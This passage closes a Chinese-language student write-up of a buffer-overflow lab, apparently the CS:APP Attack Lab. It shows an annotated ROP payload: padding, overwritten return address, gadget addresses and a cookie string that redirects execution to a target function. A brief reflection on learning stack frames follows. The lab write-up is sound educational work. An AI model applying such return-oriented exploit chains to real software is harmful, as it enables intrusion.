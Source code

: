 ```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 # 覆盖ret地址，gadget 0的地址
a2 19 40 00 00 00 00 00 # gadget 2的地址
83 13 40 00 00 00 00 00 # gadget 4的地址
30 00 00 00 00 00 00 00 # 第二个参数 0x30
d6 19 40 00 00 00 00 00 # add_xy的地址
a2 19 40 00 00 00 00 00 # gadget 6的地址
fa 18 40 00 00 00 00 00 # touch3的入口
35 39 62 39 39 37 66 61 # cookie的ASCII
```

完结撒花。

# 总结

对栈帧结构了解很多，深入理解了函数栈，以及缓冲区溢出攻击的方式。

不得不感慨国内外CS教育的差距。